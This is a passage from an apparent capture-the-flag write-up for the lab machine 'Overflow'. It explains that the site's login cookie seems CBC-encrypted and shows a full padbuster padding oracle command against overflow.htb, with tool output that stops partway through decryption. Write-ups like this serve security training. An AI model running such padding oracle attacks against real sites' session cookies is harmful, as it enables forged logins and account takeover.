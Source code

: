 Tried to decode the cookies but didn't get any information back, it looks like there is some cipher behind it. However, modifying the cookie adding or removing characters, we get redirected and an error message:
![](images/image5.png)

This could be indicative of CBC encryption, which can be reversed using a Padding Oracle Attack.
We’ll use _padbuster_ to attempt the padding oracle attack.
- `sudo apt install padbuster`

Padbuster is a tool able to decrypt ciphertext, encrypt paintext, and perform analysis. In another words, it can decrypt the cookie and also generate a new cookie with the text provided. So first we need to know what is that cookie so we can generate an admin cookie.

The original cookie from my screenshot seemed to have expired. I think there is some kind of database cleanup schedule running. So I registered a new account and extracted the cookie. Now we put this into our _padbuster_ command:
```bash
$ padbuster http://overflow.htb/login.php "8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" 8 -cookie "auth=8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 1878

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1878    N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (250/256) [Byte 8]
[+] Success: (211/256) [Byte 7]
[+] Success: (9/256) [Byte 6]
[+] Success: (88/256) [Byte 5]
[+] Success: (166/256) [Byte 4]
[+] Success: (70/256) [Byte 3]
```